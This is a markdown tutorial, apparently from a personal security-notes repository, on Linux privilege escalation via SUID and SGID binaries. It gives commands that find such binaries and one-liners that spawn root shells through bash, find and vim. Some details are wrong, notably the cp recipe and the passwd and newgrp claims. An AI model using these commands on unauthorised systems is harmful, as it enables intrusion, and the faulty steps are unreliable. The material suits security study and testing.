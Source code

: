## Linux Privilege Escalation - SUID & GUID

Linux privilege escalation through SUID (Set User ID) and SGID (Set Group ID) binaries is a common technique for gaining elevated privileges on a system. Both SUID and SGID are special permissions that allow users to execute a file with the permissions of the file owner (SUID) or the file group (SGID). This can lead to privilege escalation if these binaries are misconfigured or have vulnerabilities.

### Finding SUID and SGID Binaries
This command will list files that have SUID or SUID bits set:

```find / -type f -perm -04000 -ls 2>/dev/null``` 

![image](https://github.com/ankit-c/CyberSec/assets/25206084/f45eeb46-b2e0-4155-b93f-652c8c936769)

Finding SUID binaries:

```find / -perm -4000 -type f 2>/dev/null```

![image](https://github.com/ankit-c/CyberSec/assets/25206084/a5bcb047-8690-4c99-9d35-c0daca78a57a)

Finding GUID binaries:

```find / -perm -2000 -type f 2>/dev/null```

![image](https://github.com/ankit-c/CyberSec/assets/25206084/b6d6078d-ca0d-4af8-9385-c6129d42ebd1)

These commands search the entire filesystem (**/**) for files (**-type f**) with the SUID permission (**-perm -4000**) or the SGID permission (**-perm -2000**). The **2>/dev/null** part redirects error messages to **/dev/null** to suppress permission denied errors.

### Exploiting Common SUID and SGID Binaries

- ```bash```
  
  If the ```bash``` binary has the SUID bit set:
  
    ```bash -p```

  The -p option tells bash to not drop its privileges, maintaining the elevated privileges of the SUID owner.

- ```find```

  If the find binary has the SUID bit set:

    ```find . -exec /bin/sh \; -quit```

  This command executes /bin/sh with the privileges of the SUID owner.

- ```vim``` or ```vi```:

  If vim or vi has the SUID bit set:
  
    ```vim -c ':!/bin/sh'```

  This opens a shell with elevated privileges.

- ```cp```:

  If cp has the SUID bit set, you can copy a shell to a location where you can execute it with elevated privileges:
  
    ```
    cp /bin/sh /tmp/sh
    chmod +s /tmp/sh
    /tmp/sh
    ```
  This opens a shell with elevated privileges.

#### SGID Binaries

- ```newgrp```
  The newgrp command can be used to change the current group ID during a login session. If it has the SGID bit set, it can be used to escalate privileges:

    ```newgrp <groupname>```

- ```passwd```
  The ```passwd``` command often has the SGID bit set to allow users to change their passwords. If misconfigured, it can be exploited.
